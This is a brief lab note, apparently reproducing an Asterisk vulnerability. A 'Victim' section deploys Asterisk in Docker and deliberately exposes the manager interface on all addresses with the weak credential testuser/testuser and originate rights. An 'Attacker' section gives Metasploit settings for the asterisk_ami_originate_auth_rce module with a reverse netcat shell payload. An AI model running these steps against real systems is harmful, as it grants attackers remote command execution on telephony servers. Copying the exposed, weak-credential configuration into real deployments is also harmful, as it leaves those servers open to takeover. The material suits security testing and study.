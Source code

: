 # CVE 2

## Victim

```
docker run -d \
  --name asterisk \
  -p 5060:5060/udp \
  -p 5060:5060/tcp \
  -p 8088:8088 \
  -p 5038:5038 \
  -p 16384-16394:16384-16394/udp \
  andrius/asterisk 
```

Then modify the config for AMI

```
docker exec -it 8f069 vi /etc/asterisk/manager.conf
```
Modify as
```
...
[general]
enabled = yes
webenabled = yes

port = 5038
bindaddr = 0.0.0.0
...
...
[testuser]
secret=testuser
write=originate
permit=0.0.0.0/255.255.255.0
```

Then reload
```
docker exec -it 8f069 rasterisk -x reload
```

## Attacker
```
use exploit/linux/misc/asterisk_ami_originate_auth_rce
set rhosts 10.130.0.121
set verbose true
set username testuser
set password testuser
set PARKINGLOT 700@parkedcalls
set payload payload/cmd/unix/reverse_netcat
```